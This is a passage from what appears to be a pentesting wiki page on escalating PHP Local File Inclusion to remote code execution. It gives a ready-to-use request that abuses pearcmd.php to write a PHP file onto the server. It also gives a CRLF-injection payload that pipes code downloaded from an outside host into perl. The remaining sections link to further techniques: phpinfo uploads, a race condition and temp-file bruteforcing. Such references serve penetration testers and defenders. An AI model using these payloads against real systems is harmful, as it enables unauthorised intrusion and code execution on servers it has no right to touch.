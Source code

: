 ### Via `pearcmd.php` + URL args

As [**explained in this post**](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp), the script `/usr/local/lib/phppearcmd.php` exists by default in php docker images. Moreover, it's possible to pass arguments to the script via the URL because it's indicated that if a URL param doesn't have an `=`, it should be used as an argument.

The following request create a file in `/tmp/hello.php` with the content `<?=phpinfo()?>`:

{% code overflow="wrap" %}
```bash
GET /index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>+/tmp/hello.php HTTP/1.1
```
{% endcode %}

The following abuses a CRLF vuln to get RCE (from [**here**](https://blog.orange.tw/2024/08/confusion-attacks-en.html?m=1)):

```
http://server/cgi-bin/redir.cgi?r=http:// %0d%0a
Location:/ooo? %2b run-tests %2b -ui %2b $(curl${IFS}orange.tw/x|perl) %2b alltests.php %0d%0a
Content-Type:proxy:unix:/run/php/php-fpm.sock|fcgi://127.0.0.1/usr/local/lib/php/pearcmd.php %0d%0a
%0d%0a
```

### Via phpinfo() (file\_uploads = on)

If you found a **Local File Inclusion** and a file exposing **phpinfo()** with file\_uploads = on you can get RCE:

{% content-ref url="lfi2rce-via-phpinfo.md" %}
[lfi2rce-via-phpinfo.md](lfi2rce-via-phpinfo.md)
{% endcontent-ref %}

### Via compress.zlib + `PHP_STREAM_PREFER_STUDIO` + Path Disclosure

If you found a **Local File Inclusion** and you **can exfiltrate the path** of the temp file BUT the **server** is **checking** if the **file to be included has PHP marks**, you can try to **bypass that check** with this **Race Condition**:

{% content-ref url="lfi2rce-via-compress.zlib-+-php_stream_prefer_studio-+-path-disclosure.md" %}
[lfi2rce-via-compress.zlib-+-php\_stream\_prefer\_studio-+-path-disclosure.md](lfi2rce-via-compress.zlib-+-php\_stream\_prefer\_studio-+-path-disclosure.md)
{% endcontent-ref %}

### Via eternal waiting + bruteforce

If you can abuse the LFI to **upload temporary files** and make the server **hang** the PHP execution, you could then **brute force filenames during hours** to find the temporary file:

{% content-ref url="lfi2rce-via-eternal-waiting.md" %}
[lfi2rce-via-eternal-waiting.md](lfi2rce-via-eternal-waiting.md)
{% endcontent-ref %}

